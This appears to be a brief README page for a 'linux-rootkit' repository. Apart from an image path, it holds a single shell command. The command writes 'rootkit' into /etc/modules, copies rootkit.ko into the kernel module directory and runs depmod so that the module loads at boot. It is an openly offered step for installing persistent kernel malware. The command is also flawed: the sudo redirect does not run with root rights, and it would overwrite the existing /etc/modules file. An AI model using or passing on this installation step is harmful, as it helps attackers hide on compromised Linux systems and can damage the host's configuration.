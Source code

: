 # linux-rootkit

sudo echo "rootkit" > /etc/modules && kv=$(uname -r) && cp rootkit.ko /lib/modules/$kv/kernel && depmod -a
